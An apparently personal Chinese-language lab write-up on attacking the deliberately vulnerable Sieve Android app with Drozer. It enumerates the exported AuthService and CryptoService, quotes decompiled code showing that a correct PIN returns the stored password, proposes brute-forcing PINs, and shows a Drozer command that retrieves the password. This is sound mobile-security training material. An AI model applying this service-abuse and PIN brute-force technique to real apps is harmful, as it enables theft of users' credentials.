 ```yaml
---
title: Test Sieve - services exported
tags: [Android, Drozer]

---
```


# Test Sieve - services exported
1. 列出exported services有哪些
    ```bash
    dz> run app.service.info -a com.mwr.example.sieve
    Attempting to run shell module
    Package: com.mwr.example.sieve
      com.mwr.example.sieve.AuthService
        Permission: null
      com.mwr.example.sieve.CryptoService
        Permission: null
    ```
2. 逆向
    從以上可以知道有兩個service是被export的，這樣的話就可以逆一下判斷可以送出什麼東西以及可能的漏洞在哪，按照教學的說明我直接看==AuthService==這個service，
    在`com.mwr.example.sieve.AuthService`中的其中一段就是有問題的地方:
    ```java
    public class AuthService extends Service {
        ...
        private final class MessageHandler extends Handler {
            ...
            public void handleMessage(Message msg) {
                ...
                switch (msg.what) {
                    case 4:
                        ...
                    case AuthService.MSG_CHECK /* 2354 */:
                        if (msg.arg1 == AuthService.TYPE_KEY) {
                            responseCode3 = 42;
                            String recievedString = returnBundle.getString("com.mwr.example.sieve.PASSWORD");
                            if (AuthService.this.verifyKey(recievedString)) {
                                AuthService.this.showNotification();
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else if (msg.arg1 == AuthService.TYPE_PIN) {
                            responseCode3 = 41;
                            String recievedString2 = returnBundle.getString("com.mwr.example.sieve.PIN");
                            if (AuthService.this.verifyPin(recievedString2)) {
                                returnBundle = new Bundle();
                                returnBundle.putString("com.mwr.example.sieve.PASSWORD", AuthService.this.getKey());
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else {
                            sendUnrecognisedMessage();
                            return;
                        }
                        sendResponseMessage(5, responseCode3, returnVal2, returnBundle);
                        return;
                    ...

    ```
    首先在msg.what=2354且msg.arg1=AuthService.TYPE_PIN的地方，若程式讀取到的`com.mwr.example.sieve.PIN`的value(也就是PIN Code)，經過verifyPin這個function比對過後一致，則他會return一個bundle，內涵`com.mwr.example.sieve.PASSWORD`以及我們之前設定的password，並且回傳response message給我們
    →[5, 41, 0, {com.mwr.example.sieve.PASSWORD:\<password\>}]
    而這個問題在哪裡呢?經過前期的確認以及逆向，我們可以寫個script爆破，不斷送出一些pin code給這個service，則因為大多時候PIN Code的複雜度比較低，所以總有一天可以得到使用者的密碼了
3. 和service互動
    從下面的結果來看，一開始設定的密碼為==123456acitseccom==
    ```bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN <User PIN> --bundle-as-obj
    Attempting to run shell module
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 0
      Extras
        com.mwr.example.sieve.PASSWORD (String) : 123456acitseccom
    ```